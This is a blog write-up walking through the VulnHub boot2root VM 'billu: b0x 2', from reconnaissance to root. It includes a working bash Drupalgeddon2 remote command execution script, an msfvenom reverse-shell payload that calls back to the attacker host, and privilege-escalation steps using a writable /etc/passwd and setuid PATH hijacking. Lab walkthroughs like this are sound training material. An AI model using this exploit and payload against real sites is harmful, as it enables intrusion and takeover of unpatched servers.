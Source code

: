 ```yaml
---
layout: post
title: "billu: b0x 2 Walkthrough"
subtitle: "Man, I Need a New Hobby"
date: 2018-09-22 18:25:01 +0000
last_modified_at: 2018-09-22 18:37:16 +0000
category: Walkthrough
tags: [VulnHub, billu]
comments: true
image:
  feature: billu-b0x-2-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/soap-bubble-colorful-ball-824558/
---
```


This post documents the complete walkthrough of billu: b0x 2, a boot2root [VM][1] created by [Manish Kishan Tanwar][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Try this if you want an OSCP refresher that's not too difficult.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e6:3e:0d:ca:5c:3e:57:f8:1d:e6:e6:c5:3b:b3:67:b5 (DSA)
|   2048 ee:ef:3e:03:3a:24:f8:9f:35:4f:3a:9a:6f:64:a5:f5 (RSA)
|   256 af:60:d8:cb:90:08:63:4b:d3:7b:04:d3:7c:db:cf:bf (ECDSA)
|_  256 c0:56:96:d2:62:52:ea:9f:7f:d8:2a:7a:6b:1b:bd:56 (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-methods:
|_  Supported Methods: GET POST HEAD OPTIONS
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/
| /user/password/ /user/login/ /user/logout/ /index.php/admin/
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Home | --==[[ Billu b0x 2 - with love from indishell Lab ]]==--
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42940/udp  status
|_  100024  1          45103/tcp  status
8080/tcp  open  http    syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
45103/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds a couple of open ports. Nothing unusual. Let's take a look at the web-related ones. The metadata in the HTML source tells me I'm looking at a Drupal 8 installation.

![9cbbd925.png](/assets/images/posts/billu-b0x-2-walkthrough/9cbbd925.png)

## Drupalgeddon

Suffice to say, the first thought that comes to my mind is Drupalgeddon. Since this is Drupal 8, I'll give EDB-ID [44448](https://www.exploit-db.com/exploits/44448/) a shot. It's a proof-of-concept code written in Python that tests for remote command execution. It writes a file and then checks for the file's existence. In any case, it's easy to rewrite it in `bash`. i.e. wrap the script around `curl` and re-purpose it to take in an argument—any shell command.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

RHOST=192.168.30.129
URL="http://$RHOST/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
CMD=$1

STATUS=$(curl -s \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode "form_id=user_register_form" \
              --data-urlencode "_drupal_ajax=1" \
              --data-urlencode "mail[#post_render][]=exec" \
              --data-urlencode "mail[#type]=markup" \
              --data-urlencode "mail[#markup]=$CMD" \
              $URL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Exploit Successful"
else
  echo "[!] Exploit Failed"
fi
```

Time to run my exploit script.

_On my exploit script terminal_

![1bc5fcfa.png](/assets/images/posts/billu-b0x-2-walkthrough/1bc5fcfa.png)

_On my `nc` listener_

![95bbd761.png](/assets/images/posts/billu-b0x-2-walkthrough/95bbd761.png)

You can see the remote command executed successfully.

Next, I'll make use of `wget` to transfer a reverse shell (generated by `msfvenom`), make it executable with `chmod`, and then execute it.

You can generate the reverse shell with `msfvenom` like so.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

_On my exploit script terminal_

![cd2272c1.png](/assets/images/posts/billu-b0x-2-walkthrough/cd2272c1.png)

_On my SimpleHTTPServer terminal_

![743c9c3d.png](/assets/images/posts/billu-b0x-2-walkthrough/743c9c3d.png)

_On my `nc` listener_

![0e917b2f.png](/assets/images/posts/billu-b0x-2-walkthrough/0e917b2f.png)

I got shell.

## Privilege Escalation

Long story short. Once you have a low-privilege shell, there are two ways to gain `root` privileges.

***Method 1: world-writable `/etc/passwd`***

How do you know `/etc/passwd` is world-writable? Simple.

![07134282.png](/assets/images/posts/billu-b0x-2-walkthrough/07134282.png)

So what if `/etc/passwd` is world-writable? What can you do with it? Enough to be dangerous.

![2a7227b9.png](/assets/images/posts/billu-b0x-2-walkthrough/2a7227b9.png)

`su` to `toor`. Password is `toor`.

![1a61b268.png](/assets/images/posts/billu-b0x-2-walkthrough/1a61b268.png)

***Method 2: `/opt/s` is `setuid` to `root`***

How do you know `/opt/s` is `setuid` to `root`? Simple.

![6ce80208.png](/assets/images/posts/billu-b0x-2-walkthrough/6ce80208.png)

Check out the strings in the executable. This is classic—hijacking the default executable search path.

![d7faf243.png](/assets/images/posts/billu-b0x-2-walkthrough/d7faf243.png)

`scp` is not specified in absolute path. We can easily trick the shell to search for a `PATH` we specified first. Heck, we don't even have to compile any code. Any shell script that start with `#!` will suffice, as long as it's called `scp`.

![5d60d36e.png](/assets/images/posts/billu-b0x-2-walkthrough/5d60d36e.png)

:dancer:

## Afterthought

A good way to kill time.

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
